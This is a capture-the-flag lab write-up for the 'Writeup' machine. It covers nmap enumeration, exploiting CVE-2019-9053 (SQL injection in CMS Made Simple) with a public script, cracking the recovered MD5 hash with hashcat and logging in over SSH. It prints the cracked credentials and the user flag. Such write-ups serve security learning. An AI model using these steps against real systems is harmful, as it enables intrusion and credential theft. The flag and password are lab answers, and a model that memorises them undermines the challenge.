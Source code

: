 # Writeup

# Enumeration
---
### Nmap
#

Run a tcp syn nmap scan against the target, checking versions and running default scripts on all ports. 
```bash
# Nmap 7.94SVN scan initiated Wed Dec 11 06:50:13 2024 as: nmap -v -sS -sV -sC -T4 -p- -oA nmap-full-tcp-writeup 10.129.229.158
Nmap scan report for 10.129.229.158
Host is up (0.035s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 11 06:52:00 2024 -- 1 IP address (1 host up) scanned in 107.09 seconds

```

### HTTP
#

Retro style website on port 80 talking about DDoS protection

![image](https://github.com/user-attachments/assets/c86b97da-7c2b-4045-93a4-6e59e4965a39)

Visiting key pages such as robots.txt gave the following directory in the Disallow list: /writeup/

![image](https://github.com/user-attachments/assets/8ac080cd-bab5-417d-b1ad-0dae52a77827)

The source code shows this is running [CMS Made Simple](https://www.cmsmadesimple.org/), an open source Content Management System, the copyright gives us a clue this version is from 2019. 

```html
<base href="http://10.129.229.158/writeup/" />
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
```

Browsing Google for vulnerabilities in CMS made simple shows [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053) from 2019. This is a blind SQL vulnerability with a [public exploit](https://www.exploit-db.com/exploits/46635).  

Download the script and make the very basic alterations to get it working. Running the script finds the following information:

```bash
[+] Salt for password found: 1
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

The password looks like an MD5 hash which hashid all but confirms by returning MD2, MD5 and MD4 as the top 3 likely hash algorithms. 

```bash
hashid 62def4866937f08cc13bab43bb14e6f7

Analyzing '62def4866937f08cc13bab43bb14e6f7'
[+] MD2 
[+] MD5 
[+] MD4 
```

Running the hash through hachcat crack it and gives us the users password

```bash
hash
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt

<--snip-->

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9

<--snip-->
```

**Credentials**
Username : jkr
Password : raykayjay9

### SSH
#

This can be used to access SSH on port 22 identified on our port scan. 

```bash
ssh jkr@10.129.229.158                 
The authenticity of host '10.129.229.158 (10.129.229.158)' can't be established.
ED25519 key fingerprint is SHA256:TRwEhcL3WcCSS2iITDucAKYtASZxNYORzfYzuJlPvN4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.229.158' (ED25519) to the list of known hosts.
jkr@10.129.229.158's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 25 11:04:00 2023 from 10.10.14.23
jkr@writeup:~$ whoami
jkr
jkr@writeup:~$ cat user.txt
ec6a7fb1a03144dd6d6568b17dd85296
```

### User Flag
#

User Flag: ec6a7fb1a03144dd6d6568b17dd85296
